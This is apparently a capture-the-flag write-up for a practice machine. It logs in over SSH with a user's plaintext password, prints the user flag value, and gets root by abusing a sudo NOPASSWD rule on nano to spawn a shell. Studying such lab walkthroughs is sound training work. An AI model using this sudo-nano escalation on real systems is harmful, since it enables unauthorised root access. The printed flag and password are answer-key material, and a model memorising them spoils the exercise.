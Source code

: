 ```
```
![[Pasted image 20250414201818.png]]

# Exploitation `Method 1` with `Holt's `User

#### Try to `SSH` login with `Holt's` Credentials.
```
ssh holt@10.10.105.128
password: fluffydog12@ninenine

holt@brookly_nine_nine:~$ 
```
![[Pasted image 20250414190135.png]]

#### Find `user.txt` Flag
```
holt@brookly_nine_nine:~$ find / -type f -name user.txt 2>/dev/null
/home/holt/user.txt

holt@brookly_nine_nine:~$ cat /home/holt/user.txt
ee11cbb19052e40b07aac0ca060c23ee
```
![[Pasted image 20250414190725.png]]

### Privilege Escalation
- **Sudo Permissions binary list**
```
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

- **Execute the `Nano` command with `Sudo`**
```
holt@brookly_nine_nine:~$ sudo /bin/nano
Use "fg" to return to nano.

	Press ctrl+R - Read File
	Press ctrl+X - Execute commands
	Execute this Command " reset; bash 1>&0 2>&0 "
```
![[Pasted image 20250414200038.png]]
- **Execute the root Command**
```
Command to execute: reset; bash 1>&0 2>&0

root@brookly_nine_nine:~# id                                                          
uid=0(root) gid=0(root) groups=0(root)

root@brookly_nine_nine:~# whoami
root
```

